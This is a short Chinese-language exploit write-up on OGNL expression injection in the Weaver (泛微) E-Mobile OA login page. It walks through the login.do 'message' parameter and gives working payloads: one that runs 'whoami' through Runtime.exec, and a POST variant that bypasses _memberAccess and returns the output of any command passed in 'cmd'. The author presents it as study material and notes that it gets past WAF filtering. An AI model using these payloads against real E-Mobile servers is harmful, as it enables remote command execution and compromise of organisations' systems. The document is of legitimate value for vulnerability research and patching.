





## 泛微e-mobile ognl注入

泛微 E-Mobile 表达式注入?大概?这个洞是一个月以前，老师丢给我玩的，叫我学习一下。
拿到的时候一脸懵逼，什么是表达式注入?去漏洞库看了一圈。
(・。・) 噢！原来可以执行算术运算就是表达式注入呀！
要怎么玩？当计算器用么？～ヾ(*´∇`)ﾉ

一、泛微OA E-Mobile WebServer:**Apache** 通用部分:**apache**
官方有两个OA。一个是**apache**的 一个是**Resin**的。
**Resin**的也找到姿势通杀了，但是**Resin**涉及的站太大了。。。暂时不放出来，因为好像和S2撞洞了？因为045打了WAF的 ，我这个可以执行命令。23333 我也不知道~

```
1、登录页面如下

http://6.6.6.6/login.do?
or
http://6.6.6.6/login/login.do?
```



```
2、当账号密码报错的时候，出现如下URL
login.do?message=104&verify=
```



```
3、直接改写message=的内容，试试算术运算。
http://6.6.6.6/login.do?message=66*66*66-66666
```



o(>ω<)o 这么神奇么~

```
4、表达式注入。
有的表达式注入是${code}。这里隐藏了${}，所以直接调用就行了。
message=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec('whoami').getInputStream())
```



```
5、也可以通过`post`提交数据来进行注入，命令执行
`post`如下数据也可以：
message=(#_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#w=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse").getWriter()).(#w.print(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(#parameters.cmd[0]).getInputStream()))).(#w.close())&cmd=whoami
```



参考：

http://sh0w.top/index.php/archives/14/

http://sh0w.top/index.php/archives/39/

https://mp.weixin.qq.com/s/EbzjQvHTl7k9flG-7lqAvA

其他表达式相关文章：[表达式注入.pdf](./books/表达式注入.pdf)|[原文地址](https://misakikata.github.io/2018/09/表达式注入/)

